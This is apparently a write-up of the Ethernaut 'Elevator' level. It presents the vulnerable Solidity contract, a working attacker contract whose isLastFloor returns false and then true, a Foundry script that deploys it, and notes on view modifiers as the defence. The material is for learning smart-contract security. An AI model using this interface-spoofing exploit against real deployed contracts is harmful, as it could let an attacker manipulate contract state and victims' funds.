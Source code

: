 # Level 11 - Elevator ⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/11" %}

### Level Setup

{% hint style="info" %}
This elevator won't let you reach the top of your building. Right?

**Things that might help:**

* Sometimes solidity is not good at keeping promises.
* This `Elevator` expects to be used from a `Building`.
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Elevator.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```
{% endcode %}

### Exploit

`top` must first return `false` when called, then `true` the next time. The interface for `Building` is set to `msg.sender`.&#x20;

1. Create a contract that exploits this by implementing a function `isLastFloor` that sets `top` to `true`.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-11

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-11

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/src/Level11.sol" %}

{% code title="src/Level1.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";

// ================================================================
// │                        LEVEL 11 - ELEVATOR                   │
// ================================================================
interface IElevator {
    function goTo(uint256 _floor) external;
}

contract Building {
    IElevator targetContract;
    bool public last = true;

    constructor(address _targetContractAddress) payable {
        targetContract = IElevator(_targetContractAddress);
    }

    function isLastFloor(uint256 _floor) public returns (bool) {
        if (_floor > 0) {
            last = !last;
            return last;
        } else {
            revert("Invalid floor");
        }
    }

    function attack() public {
        targetContract.goTo(1);
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level11.s.sol" %}

{% code title="script/Level11.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";
import {Building} from "../src/Level11.sol";

// ================================================================
// │                        LEVEL 11 - ELEVATOR                   │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        Building building = new Building(targetContractAddress);
        building.attack();
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
You can use the `view` function modifier on an interface in order to prevent state modifications. The `pure` modifier also prevents functions from modifying the state. Make sure you read [Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) and learn its caveats.

An alternative way to solve this level is to build a view function which returns different results depends on input data but don't modify state, e.g. `gasleft()`.
{% endhint %}

### Notes

* The function `isLastFloor` is called twice, with the returned value changing for the same input as the state is changed.
* If the `isLastFloor` had been restricted to view, then this attack wouldn't be possible (unless it was calling a library, which [doesn't have runtime checks](https://docs.soliditylang.org/en/develop/contracts.html#view-functions) to make sure it doesn't modify the state when it says it's view)
